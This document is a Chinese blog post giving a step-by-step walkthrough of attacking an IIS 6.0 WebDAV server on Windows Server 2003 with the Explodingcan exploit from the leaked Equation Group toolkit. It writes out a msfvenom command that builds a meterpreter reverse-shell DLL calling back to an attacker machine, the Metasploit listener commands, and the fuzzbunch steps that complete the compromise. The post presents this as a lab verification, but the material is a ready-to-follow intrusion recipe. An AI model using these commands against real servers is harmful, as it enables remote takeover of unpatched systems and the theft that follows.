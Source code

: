 ```yaml
---
title: NSA工具包windows 0day验证之IIS6.0漏洞利用
date: 2017-06-15 21:20:05
tags: 网络安全
---
```


### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.3)：开放了80端口的Windows Server 2003 R2，IIS6.0，开启了Webdav功能

以上所有IP之间均可以直接访问
<!--more-->
### 验证步骤：

* * *

#### 第一步：生成可执行的恶意dll文件

0x01

首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：

![1.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/1.jpg "1.jpg")

0x02

执行命令：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll >s.dll
```

在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell

0x03

点击xshell如图位置

![3.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3.jpg "3.jpg")

打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图

![4.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/4.jpg "4.jpg")

#### 第二步：配置kali使得kali处于监听状态

0x01

依次输入命令

```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功

![2.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/2.jpg "2.jpg")

这时就可以将xshell最小化，等后边再用

#### 第三步：使用方程式工具包进行攻击

0x01

将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错

![5.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/5.jpg "5.jpg")

0x02

打开命令提示符，输入
```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图

![1.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/iis6/1.jpg "1.jpg")

最后敲击回车

0x03

显示出`fb >`之后输入命令
```
use Explodingcan
```

使用该工具，之后除了下图所示位置需要修改，其他都保持默认直接敲击回车即可

![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/iis6/2.jpg "2.jpg")

（选择系统，CallbackIP、CallbackPort等，端口可以任意设置）

![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/iis6/3.jpg "3.jpg")

之后都保存默认配置，攻击成功如图

![4.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/iis6/4.jpg "4.jpg")